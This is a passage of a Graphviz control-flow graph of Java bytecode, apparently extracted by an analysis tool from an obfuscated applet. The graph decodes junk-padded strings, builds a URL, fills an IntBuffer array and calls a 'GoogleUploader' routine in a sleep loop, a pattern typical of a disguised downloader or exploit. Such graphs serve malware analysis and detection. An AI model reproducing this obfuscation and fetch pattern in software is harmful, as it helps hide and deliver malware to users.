    "push \"eee00eee9ee0eeee\""->"push \"e\"";
    "push \"e\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r107"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r107";
    "staticinvoke <GoogleCodeSearch: java.lang.String decodeString(java.lang.String)>"
    "store.r r107"->"staticinvoke <GoogleCodeSearch: java.lang.String decodeString(java.lang.String)>";
    "store.r r484"
    "staticinvoke <GoogleCodeSearch: java.lang.String decodeString(java.lang.String)>"->"store.r r484";
    "store.r r484"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r74"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r74";
    "load.r r74"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r74";
    "store.r r74"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r74";
    "load.r r74"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r484"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r484";
    "load.r r484"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r0"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "store.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r107"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r107";
    "load.r r107"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "new java.net.URL"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.net.URL";
    "new java.net.URL"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r r413";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r413"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "push \"90PPP9PP0PPP9090\""
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push \"90PPP9PP0PPP9090\"";
    "push \"P\""
    "push \"90PPP9PP0PPP9090\""->"push \"P\"";
    "push \"P\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <GoogleCode: java.nio.IntBuffer[] __y(java.lang.String,java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <GoogleCode: java.nio.IntBuffer[] __y(java.lang.String,java.lang.String)>";
    "fieldput <GoogleCode: java.nio.IntBuffer[] mem>"
    "virtualinvoke <GoogleCode: java.nio.IntBuffer[] __y(java.lang.String,java.lang.String)>"->"fieldput <GoogleCode: java.nio.IntBuffer[] mem>";
    "fieldput <GoogleCode: java.nio.IntBuffer[] mem>"->"load.r r0";
    "staticinvoke <GoogleUploader: void init(java.net.URL)>"
    "load.r r0"->"staticinvoke <GoogleUploader: void init(java.net.URL)>";
    "push 10L"
    "staticinvoke <GoogleUploader: void init(java.net.URL)>"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "store.r r0"->"return";
}
